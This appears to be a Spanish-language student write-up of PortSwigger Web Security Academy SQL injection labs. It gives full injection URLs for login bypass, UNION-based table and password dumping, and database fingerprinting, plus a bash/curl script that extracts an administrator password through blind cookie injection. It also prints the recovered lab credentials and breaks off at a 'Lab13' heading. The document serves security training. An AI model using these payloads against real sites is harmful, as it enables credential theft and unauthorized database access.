





# SQL injection

[TOC]

## Retrieving hidden data

### Lab1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data



```http
https://ac701fd11eeda548806db59400ab002f.web-security-academy.net/filter?category=Gifts' or 1 = 1 --
```

## Subverting application logic

### Lab2: SQL injection vulnerability allowing login bypass



#### 1 forma

username: `administrator' --`

password: `cualquier cosa por que este será interpretado como comentario pero requiere de algun texto para poder ser validado`

#### Otra forma sería:

username: `administrator' or 1 = 1 --` 

password: `'or 1 = 1 --`

## Retrieving data from other database tables(Union attacks)

### Lab3: SQL injection UNION attack, determining the number of columns returned by the query


```http
https://ac961fdd1e31962380aa27ed00e300af.web-security-academy.net/filter?category=Accessories' union select null,null,null --
```

### Finding columns with a useful data type in an SQL injection UNION attack

#### Lab4: SQL injection UNION attack, finding a column containing text

Lo primero es encontrar la cantidad de columnas que tiene la tabla



```http
https://accb1fe71f4b818780eb38b000d600be.web-security-academy.net/filter?category=Accessories' union select null,null,null --
```

ahora es identificar cual columna permite caracteres

```http
https://ac851f641e0191b48054265b00af0007.web-security-academy.net/filter?category=Accessories' union select null,'a',null --
```

Finalmente les mostramos el texto que nos piden "p20mtj"



```http
https://ac851f641e0191b48054265b00af0007.web-security-academy.net/filter?category=Accessories' union select null,'p2Omtj',null --
```

### Using an SQL injection UNION attack to retrieve interesting data

#### Lab5: SQL injection UNION attack, retrieving data from other tables

Primero igual que los anteriores problemas buscamos la cantidad de columnas

```http
https://acf71f531efe798180e3028300c30029.web-security-academy.net/filter?category=Food+&+Drink' union select null,null --
```

luego buscamos cuales se pueden utilizar caracteres

```http
https://acf71f531efe798180e3028300c30029.web-security-academy.net/filter?category=' union select 'a','a' --
```

ahora si buscamos los usarios y las contraseñas

```http
https://acf71f531efe798180e3028300c30029.web-security-academy.net/filter?category=' union select username, password from users --
```

### Retrieving multiple values within a single column

#### Lab6: SQL injection UNION attack, retrieving multiple values in a single column

Para este laboratorio solo podemos usar el segundo atributo pues el primero solo se permite el uso de enteros

```http
https://ac1c1f1b1f85900280d5c26a0063008a.web-security-academy.net/filter?category=Gifts' union select null,tables_name from information_schema.tables --
```

ahora buscamos de la tabla users sus columnas y para que no nos de valores extra de la anterior consulta hacemso que la consulta por defecto no nos bote resultados acortando a `category='union select ...`

```http
https://ac1c1f1b1f85900280d5c26a0063008a.web-security-academy.net/filter?category=' union select null,table_name||'<->'||column_name from information_schema.columns where table_name='users' --
```

Con esto ya tenemos las dos columnas `username` y `password`

```http
https://ac1c1f1b1f85900280d5c26a0063008a.web-security-academy.net/filter?category=' union select null,username||'<->'||password from users --
```

> administrator<->nqy8w4oj1tnda467u4lf

## Examining the database

### Querying the database type and version

#### Lab7: SQL injection attack, querying the database type and version on Oracle

De nuevo es averiguar el numero de columnas incialmente, pero en este caso el truco es intentar con el uso de una tabla dual que esta por defecto en la base de datos de oracle

```http
https://acc31f241f82d489800a5ce2002a001b.web-security-academy.net/filter?category=Accessories' union select null,null from dual --
```

ahora para sacar la version de un servidor de Oracle debemos adaptar la consulta `SELECT banner FROM v$version` or `SELECT version FROM v$instance`

```http
https://acc31f241f82d489800a5ce2002a001b.web-security-academy.net/filter?category=Accessories' union select banner,null from v$version --
```

#### Lab8: SQL injection attack, querying the database type and version on MySQL and Microsoft

Ahora ya sabiendo como sacar las columnas podemos definir el resultado facilmente, en este caso la consulta a `SELECT @@version` sirve para base de datos de MySQL y Microsoft. En este caso `@@version` nos permite sacar la version y esta puede ser usada directamente como atributo en una consulta select por lo que no es necesario apuntar a una tabla como en el ejercicio anterior.

Nota: Para el uso de comentarios solo en MySQL es necesario que este sea acompañado de un espacio luego del uso de `--` y para que la pagina acepte la consulta en el url colocamos algo despues de ese espacio.

```http
https://ac0a1fa31ee8d2378087449100450099.web-security-academy.net/filter?category=Corporate+gifts' union select null,@@version -- algo
```

### Listing the contents of the database

#### Lab9: SQL injection attack, listing the database contents on non-Oracle databases

Cantidad de columnas 

```http
https://ac331f5e1ed3d20e80bd47dc00a60093.web-security-academy.net/filter
?category=Gifts' union select 'null','null' --
```

no fue necesario agregar texto luego de los comentarios y tampoco fue necesario agreagar una columna dual por lo que descartamos MySQL y Oracle

Ahora tratemos de sacar la version de la base de datos

```http
https://ac331f5e1ed3d20e80bd47dc00a60093.web-security-academy.net/filter
?category=Gifts' union select 'a',version() --
```

tenemos entonces una DBMS que es PostgreSQL

`PostgreSQL 11.2 (Debian 11.2-1.pgdg90+1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 6.3.0-18+deb9u1) 6.3.0 20170516, 64-bit`

Lo siguiente sería conocer en que base de datos estamos actualmente (opcional)

```http
https://ac331f5e1ed3d20e80bd47dc00a60093.web-security-academy.net/filter
?category=Gifts' union select 'a',current_database() --
```

Bueno estamos en la tabla postegres, lo siguiente sería buscar la tabla que nos intereza, la de usuarios

```http
https://ac331f5e1ed3d20e80bd47dc00a60093.web-security-academy.net/filter
?category=Gifts' union select TABLE_SCHEMA ,TABLE_NAME from information_schema.tables --
```

Varias tablas con nombres de users, será mejor encontrar alguna con una columna que tenga contraseña

```http
https://ac331f5e1ed3d20e80bd47dc00a60093.web-security-academy.net/filter
?category=Gifts' union select TABLE_NAME,COLUMN_NAME from information_schema.columns --
```

encontramos una tabla llamada `users_phrdzq` que contiene las columnas `username_fupjlk` y `password_dhtwtn`, entonces modificamos la consulta para obtener los valores de esta tabla

```http
https://ac331f5e1ed3d20e80bd47dc00a60093.web-security-academy.net/filter
?category=Gifts' union select username_fupjlk,password_dhtwtn from users_phrdzq --
```

obtenemos los valores de administrator

> | users_phrdzq  | password_dhtwtn      |
> | :------------ | -------------------- |
> | administrator | tcqd7xuw8lsd4uvn8e7z |

### Equivalent to information schema on Oracle

#### Lab10: SQL injection attack, listing the database contents on Oracle

Realizamos los pasos similares al anterior, en este caso ya sabemos que es para un DBMS de oracle

para sacar la version

```http
https://acf91fd61fdb866c80560c7100da00ce.web-security-academy.net/filter
?category=Pets' union select null,banner from v$version --
```

para sacar las tablas de la base de datos

```http
https://acf91fd61fdb866c80560c7100da00ce.web-security-academy.net/filter
?category=Pets' union select null,TABLE_NAME from all_tables --
```

para sacar las columnas de la tabla USERS_ADMDFI que parece mas sospechoza

```http
https://acf91fd61fdb866c80560c7100da00ce.web-security-academy.net/filter
?category=Pets' union select TABLE_NAME,COLUMN_NAME from all_tab_columns where TABLE_NAME='' --
```

> | USERS_ADMDFI    | USERS_ADMDFI    |
> | :-------------- | --------------- |
> | USERNAME_SZEHOW | PASSWORD_TDJNHV |

ahora nos falta sacar los datos del administrador

```http
https://acf91fd61fdb866c80560c7100da00ce.web-security-academy.net/filter
?category=Pets' union select USERNAME_SZEHOW,PASSWORD_TDJNHV from USERS_ADMDFI --
```

> | USERNAME_SZEHOW | PASSWORD_TDJNHV      |
> | :-------------- | -------------------- |
> | administrator   | 8qib221yweviflt6sqyr |

## Blind SQL injection vulnerabilities

### Lab11: Blind SQL injection with conditional responses

nos damos cuenta de que debemos injectar la consulta en la cookie así que nos creamos un script en bash para sacar letra por letra la contraseña de `administrator`

```bash
abc=$(echo {9..0} {a..z})
url="https://acd11f891f9b5cd4807e1274007b0036.web-security-academy.net/"
cookie='session=MkTPsv6qpbxMxOToys1Qo8ZfRf1m7Zm9; TrackingId=b1cP94KSXHI3etwO'
truestring="Welcome back!"
psw=""
echo -n "try "
for ((i=1;i<=20;i+=1))
do
	for j in $abc
	do
		echo -n "$j"
		curl -i -s -k -b "$cookie' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), $i, 1)='$j" $url | grep -o "$truestring" &> /dev/null
		if [ "$?" -eq 0 ] ;then
			psw=$psw$j
			echo -e "\nfound $j | pasword: $psw"
			break
		fi
		
	done
done
echo $psw
echo "finish"
```

Despues de ejecutarlo solo nos quedaría logearnos para resolver el laboratorio.

### Lab 12: Blind SQL injection with conditional errors

Utiliza una base de datos de oracle

Comprobamos que nos bote error colocando la cookie de la siguiente manera

```sql
42bE1LpD9wjQKpT9' and (SELECT case when (1=0) then to_char(1/0) else 'a' end from dual where rownum = 1)='a
```

Ahora probamos si tiene la tabla users como nos pide el ejercicio

```sql
42bE1LpD9wjQKpT9' and (SELECT case when (1=0) then to_char(1/0) else 'a' end from dual where rownum = 1)='a
```

Luego verificamos la longitud de la contraseña del administrador

```sql
42bE1LpD9wjQKpT9' and (SELECT case when (length(password)=20) then to_char(1/0) else 'a' end from users where username='administrator')='a
```

lo demás será iterar hasta encontrar el resultado correcto en cada letra de `password`

```sql
42bE1LpD9wjQKpT9' and (SELECT case when (substr(password,1,1)='e') then to_char(1/0) else 'a' end from users where username='administrator')='a
```

l3w4nombeg0v2nrs90mv


## Lab13